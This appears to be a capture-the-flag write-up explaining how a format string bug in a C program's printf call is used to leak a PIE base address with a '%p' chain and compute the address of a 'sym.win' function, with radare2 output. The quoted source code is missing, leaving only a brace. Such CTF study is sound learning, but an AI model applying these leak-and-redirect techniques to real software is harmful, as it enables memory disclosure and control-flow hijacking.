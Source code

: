 ```c
}

```

There is a format string vulnerability in the function.
The printf function 4th line of the code prints user input without validation which leads to format string vulnerability. This vulnerability can be used for leaking the base memory address.

This suggests that we can use this vulnerability to call the function `sym.win` to obtain the flag. In order to call the function, we need to know the offset of the function. In `radare2`, it says that the function is located at `0x0000136a`.

Therefore, the memory location of the function `sym.win` should end with the last 3 digits of the address: `36a` (0x00001 suggests the dynamic base address).

```bash
sym.win 		    0x0000136a
main			    0x00001400
sym.call_functions	0x000012c7

.0x5589ca0a3441.

0x5589ca0a336a

%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

0x5c637d063441
0x5c637d06336a
```

```bash
0x00001100    1     11 sym.imp.putchar
0x00001110    1     11 sym.imp.puts
0x00001120    1     11 sym.imp.fclose
0x00001130    1     11 sym.imp.__stack_chk_fail
0x00001140    1     11 sym.imp.printf
0x00001150    1     11 sym.imp.fgetc
0x00001160    1     11 sym.imp.fgets
0x00001170    1     11 sym.imp.signal
0x00001180    1     11 sym.imp.setvbuf
0x00001190    1     11 sym.imp.fopen
0x000011a0    1     11 sym.imp.__isoc99_scanf
0x000011b0    1     11 sym.imp.exit
0x000011c0    1     46 entry0
0x000011f0    4     34 sym.deregister_tm_clones
0x00001220    4     51 sym.register_tm_clones
0x00001260    5     54 entry.fini0
0x000010f0    1     11 fcn.000010f0
0x000012a0    1      9 entry.init0
0x00001000    3     27 sym._init
0x000014c0    1      5 sym.__libc_csu_fini
0x000012c7    3    163 sym.call_functions
0x000014c8    1     13 sym._fini
0x000012a9    1     30 sym.segfault_handler
0x00001450    4    101 sym.__libc_csu_init
0x0000136a    6    150 sym.win
0x00001400    1     72 main
```
